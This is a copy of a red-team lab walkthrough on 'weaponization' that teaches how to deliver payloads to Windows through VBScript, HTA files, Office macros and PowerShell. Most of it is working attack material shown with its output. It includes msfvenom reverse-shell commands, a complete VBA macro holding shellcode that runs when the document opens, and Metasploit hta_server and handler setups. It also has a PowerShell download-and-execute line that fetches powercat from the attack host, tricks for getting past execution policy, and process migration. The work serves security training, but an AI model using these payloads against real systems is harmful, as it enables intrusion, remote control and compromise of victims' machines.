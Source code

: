 * introduction



In this room, we will be discussing different techniques used for weaponization. 



What is Weaponization

Weaponization is the second stage of the Cyber Kill Chain model. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as word documents, PDFs, etc. [1]. The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.

Most organizations have Windows OS running, which is going to be a likely target. An organization's environment policy often blocks downloading and executing .exe files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as phishing campaigns, social engineering, browser or software exploitation, USB, or web methods.

The following graph is an example of weaponization, where a crafted custom PDF or Microsoft Office document is used to deliver a malicious payload. The custom payload is configured to connect back to the command and control environment of the red team infrastructure.

For more information about red team toolkits, please visit the following: a [[https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development][GitHub repository]] that has it all, including initial access, payload development, delivery methods, and others.

Most organizations block or monitor the execution of .exe files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:

 - The Windows Script Host (WSH)
 - An HTML Application (HTA)
 - Visual Basic Applications (VBA)
 - PowerShell (PSH)

** Deploying the Machine

n order to follow up along with the task content and apply what is given in this room, you need to start the attached machine by using the green Start Machine button in this task, and wait a few minutes for it to boot up. To access the attached machine, you can either use the split in browser view or connect through the RDP.

If you prefer to connect through the Remote Desktop Protocol (RDP), first make sure you are connected to the VPN. Then an RDP client is required to connect to the attached Windows 10 machine. You can connect using the xfreerdp tool, which is available on the TryHackMe AttackBox.

To connect  via xfreerdp use the following command:
Terminal

           
user@machine$ xfreerdp /v:10.10.163.215 /u:thm /p:TryHackM3 +clipboard

The username: thm  and the password: TryHackM3

** Windows Script Host - WSH



Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit here. It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

Now let's write a simple VBScript code to create a windows message box that shows the Welcome to THM message. Make sure to save the following code into a file, for example, hello.vbs.

Dim message 
message = "Welcome to THM"
MsgBox message

In the first line, we declared the message variable using Dim. Then we store a string value of Welcome to THM in the message variable. In the next line, we use the MsgBox function to show the content of the variable. For more information about the MsgBox function, please visit here. Then, we use wscript to run and execute the content of hello.vbs. As a result, A Windows message will pop up with the Welcome to THM message.


Now let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True

We create an object of the WScript library using CreateObject to call the execution payload. Then, we utilize the Run method to execute the payload. For this task, we will run the Windows calculator calc.exe. 

To execute the exe file, we can run it using the wscript as follows, 
Terminal

           
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
 

We can also run it via cscript as follows,
Terminal

           
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs

As a result, the Windows calculator will appear on the Desktop.


Another trick. If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,
Terminal

           
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
 

The result will be as exact as executing the vbs files, which run the calc.exe binary.

Answer the questions below
Try to replace the calc.exe binary to execute cmd.exe within the Windows machine.


** An HTML Application - HTA



An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.
#+BEGIN_SRC html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
#+END_SRC 
Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,
Terminal

           
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

HTA Reverse Connection

We can create a reverse shell payload as follows,
Terminal

           
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta

We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.
Terminal

           
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Malicious HTA via Metasploit 

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.
Terminal

           
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
Terminal

           
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>

** Visual Basic for Application


*** Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface (API) and other low-level functionality. For more information about VBA, visit here. 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through in-browser access.

Now open Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial period.


Next, make sure to accept the Microsoft Office license agreement that shows after closing the product key window.

Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.


In the Macro name section, we choose to name our macro as THM. Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:

#+BEGIN_SRC c++ 
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
#+END_SRC 
Finally, run the macro by F5 or Run → Run Sub/UserForm.

Now in order to execute the VBA code automatically once the document gets opened, we can use built-in functions such as AutoOpen and Document_open. Note that we need to specify the function name that needs to be run once the document opens, which in our case, is the THM function.

Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub

It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.


Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Let's enable it and move forward to check out the result.


Once we allowed the Enable Content, our macro gets executed as shown,


Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,

Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub

To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document_open() functions too.

Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.
Answer the questions below

Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.
Terminal

           
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes

#+BEGIN_SRC vbs
  #If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Dbdmsmc As Long, ByVal Fyhxsh As Long, ByVal Pmldf As LongPtr, Oekq As Long, ByVal Gzll As Long, Tqmiorp As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Hpmxpz As Long, ByVal Mvn As Long, ByVal Cdyzgx As Long, ByVal Kzwuip As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Fqx As LongPtr, ByRef Ylhuchpqo As Any, ByVal Zgllxzr As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Dbdmsmc As Long, ByVal Fyhxsh As Long, ByVal Pmldf As Long, Oekq As Long, ByVal Gzll As Long, Tqmiorp As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Hpmxpz As Long, ByVal Mvn As Long, ByVal Cdyzgx As Long, ByVal Kzwuip As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Fqx As Long, ByRef Ylhuchpqo As Any, ByVal Zgllxzr As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Ukgqrx As Long, Cknuu As Variant, Onbmtwyk As Long
#If Vba7 Then
        Dim  Dtsh As LongPtr, Ehgvlc As LongPtr
#Else
        Dim  Dtsh As Long, Ehgvlc As Long
#EndIf
        Cknuu = Array(252,232,143,0,0,0,96,49,210,137,229,100,139,82,48,139,82,12,139,82,20,49,255,15,183,74,38,139,114,40,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,88,32,1,211,139,72,24,80,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,10,2,3,4,104,2,0,4,210,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

        Dtsh = VirtualAlloc(0, UBound(Cknuu), &H1000, &H40)
        For Onbmtwyk = LBound(Cknuu) To UBound(Cknuu)
                Ukgqrx = Cknuu(Onbmtwyk)
                Ehgvlc = RtlMoveMemory(Dtsh + Onbmtwyk, Ukgqrx, 1)
        Next Onbmtwyk
        Ehgvlc = CreateThread(0, 0, Dtsh, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
#+END_SRC 

The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.

Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.

Now copy the output and save it into the macro editor of the MS word document, as we showed previously.

From the attacking machine, run the Metasploit framework and set the listener as follows:
Terminal

           
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 

Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.
Terminal

           
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >

Now replicate and apply what we discussed to get a reverse shell!

** Powershell

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, Hacking with PowerShell for more information about PowerShell.

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

#+BEGIN_SRC shell
Write-Output "Welcome to the Weaponization Room!"
#+END_SRC 

Save the file as thm.ps1. With the Write-Output, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.
CMD

           
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>

Execution Policy

PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.

You can determine the current PowerShell setting of yougr Windows as follows,
CMD

           
PS C:\Users\thm> Get-ExecutionPolicy
Restricted

We can also easily change the PowerShell execution policy by running:
CMD

           
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A

Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,
CMD

           
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

Terminal

           
			
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.

	    

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.
Terminal

           
			
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

	    

On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.
Terminal

           
			
user@machine$ nc -lvp 1337

	    

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,
Terminal

           
			
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

	    

Now that we have executed the command above, the victim machine downloads the powercat.ps1  payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back:
Terminal

           
			
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>

** Command And Control - (C2 Or C&C)



This task introduces the basic concept of Command and Control (C2) frameworks used in Red team operations.




What is Command and Control (C2)?

C2 frameworks are post-exploitation frameworks that allow red teamers to collaborate and control compromised machines. C2 is considered one of the most important tools for red teamers during offensive cyber operations. C2 frameworks provide fast and straightforward approaches to:

    Generate various malicious payloads
    Enumerate the compromised machine/networks
    Perform privilege escalation and pivoting
    Lateral movement 
    And many others


Some popular C2 frameworks that we'll briefly highlight are Cobalt Strike, PowerShell Empire, Metasploit. Most of these frameworks aim to support a convenient environment to share and communicate between red team operations once the initial access is gained to a system.


Cobalt Strike

Cobalt Strike is a commercial framework that focuses on Adversary Simulations and Red Team Operations. It is a combination of remote access tools, post-exploitation capabilities, and a unique reporting system. It provides an agent with advanced techniques to establish covert communications and perform various operations, including key-logging, files upload and download, VPN deployment, privilege escalation techniques, mimikatz, port scanning, and the most advanced lateral movements.

PowerShell Empire

PowerShell Empire is an open-source framework that helps red team operators and pen testers collaborate across multiple servers using keys and shared passwords. It is an exploitation framework based on PowerShell and Python agents. PowerShell Empire focuses on client-side and post-exploitation of Windows and Active Directory environment. If you want to learn more about PowerShell Empire, we suggest trying out this room: Empire.

Metasploit 

Metasploit is a widely used exploitation framework that offers various techniques and tools to perform hacking easily. It is an open-source framework and is considered one of the primary tools for pentesting and red team operations. Metasploit is one of the tools we use in this room to generate payload for our weaponization stage. If you want to learn more about the Metasploit framework, we suggest trying out the following two rooms: Metasploit: Introduction and Metasploit.

Most of the C2 frameworks use the techniques mentioned in this room as preparation for the initial access stage. For more details about the C2 framework, we invite you to check the Intro to C2 room.

** Delivery Techniques

Delivery Techniques

Delivery techniques are one of the important factors for getting initial access. They have to look professional, legitimate, and convincing to the victim in order to follow through with the content.


*** Email Delivery

It is a common method to use in order to send the payload by sending a phishing email with a link or attachment. For more info, visit here. This method attaches a malicious file that could be the type we mentioned earlier. The goal is to convince the victim to visit a malicious website or download and run the malicious file to gain initial access to the victim's network or host.

The red teamers should have their own infrastructure for phishing purposes. Depending on the red team engagement requirement, it requires setting up various options within the email server, including DomainKeys Identified Mail (DKIM), Sender Policy Framework (SPF), and DNS Pointer (PTR) record.

The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo, and others with good reputations.

Another interesting method would be to use a compromised email account within a company to send phishing emails within the company or to others. The compromised email could be hacked by phishing or by other techniques such as password spraying attacks.

*** Web Delivery

Another method is hosting malicious payloads on a web server controlled by the red teamers. The web server has to follow the security guidelines such as a clean record and reputation of its domain name and TLS (Transport Layer Security) certificate. For more information, visit here.

This method includes other techniques such as social engineering the victim to visit or download the malicious file. A URL shortener could be helpful when using this method.

In this method, other techniques can be combined and used. The attacker can take advantage of zero-day exploits such as exploiting vulnerable software like Java or browsers to use them in phishing emails or web delivery techniques to gain access to the victim machine.


*** USB Delivery

This method requires the victim to plug in the malicious USB physically. This method could be effective and useful at conferences or events where the adversary can distribute the USB. For more information about USB delivery, visit here.

Often, organizations establish strong policies such as disabling USB usage within their organization environment for security purposes. While other organizations allow it in the target environment.

Common USB attacks used to weaponize USB devices include Rubber Ducky and USBHarpoon, charging USB cable, such as O.MG Cable.

** Practice Arena

We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. Deploy the attached machine and wait a couple of minutes until it's up and running. Then, visit the user simulator web application at http://10.10.219.78:8080/.

Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.


The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

Note for Doc files: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. In order to get longer prescience, you need to migrate as soon as you receive the connection back. 

In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. In our case, we need to migrate our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. The easiest way to do this is by using migrate post-module as follow,
Terminal

           
meterpreter > run post/windows/manage/migrate 

[*] Running module against DESKTOP-1AU6NT4
[*] Current server process: svchost.exe (3280)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 4960
[+] Successfully migrated into process 4960

In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on this website.

